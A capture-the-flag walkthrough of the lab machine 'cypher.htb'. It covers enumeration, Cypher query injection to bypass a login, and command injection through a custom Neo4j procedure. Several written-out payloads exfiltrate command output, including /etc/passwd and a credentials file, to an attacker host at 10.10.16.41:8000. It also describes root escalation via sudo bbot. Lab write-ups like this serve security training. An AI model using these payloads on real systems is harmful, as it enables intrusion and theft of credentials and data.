


Target: 10.10.11.57
$ nmap -sV -sC 10.10.11.57

First, it is necessary to update the local DNS in /etc/hosts by adding a new record:
$ sudo echo '10.10.11.57 cypher.htb' >> /etc/hosts
Visiting http://cypher.htb, the following result is obtained:

No relevant information is found by visiting the "visible" paths, except for the presence of a Login form.

A Gobuster instance is launched to enumerate directories.
$ gobuster dir -u http://cypher.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

The scan detected the presence of the testing/ directory:
Download it and analyze:
A Java class decompiler was used to inspect the .class files.
For example, in this case, Decompiler was used.


It appears that Neo4j provides developers with the ability to perform graph queries using the declarative language Cypher.
Additionally, from the cheat sheet, it was found that procedures can be invoked using the CALL clause.
The CALL clause is used to call a procedure deployed in the database.
These two functions appear to be procedures that can be called.
The most interesting one seems to be getUrlStatusCode, as it executes the curl command, accepting a URL parameter passed in the query.
IDEA: Cypher query injection.
The login form is exploited.

Now, an attempt is made to call the getUrlStatusCode procedure to retrieve information about the username and password.

The same approach is used to capture the hashed password. The following was obtained:
It is an SHA1 hash, as indicated by the query being attacked.
An attempt is made to crack the hash, but without success. The next idea is to modify the behavior.

Since the hash value returned by the query is used, it is possible to return a custom hash value to bypass authentication.


Successfully logged in as graphasm!

A Cypher query injection is attempted to obtain relevant system information.
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls| tr " " "_" | tr "\n" "_"`;') yield statusCode


CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /etc/passwd | tr " " "_" | tr "\n" "_"`;') yield statusCode


CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`whoami | tr " " "_" | tr "\n" "_"`;') yield statusCode
It is possible to navigate /home/graphasm/:
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls /home/graphasm/ | tr " " "_" | tr "\n" "_"`;') yield statusCode
Located files:
However, user.txt is not readable, while bbot_preset.yml contains the following content:
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /home/graphasm/bbot_preset.yml | tr " " "_" | tr "\n" "_"`;') yield statusCode

An SSH connection is attempted with graphasm using the discovered password:
Successfully accessed with:
bbot is a recursive internet scanner for hackers.
It offers some functionalities, and during the study of the program, it was found that custom modules can be created.
IDEA: Exploit BBOT to read arbitrary sensitive data.
A module mymodule.py is built:
and a my_preset.yml is defined for this module:

Launch BBOT with the custom preset and module:
sudo /usr/local/bin/bbot -p ./my_preset.yml -m mymodule

The command was successfully executed! The flag is retrieved.

[+] Completed.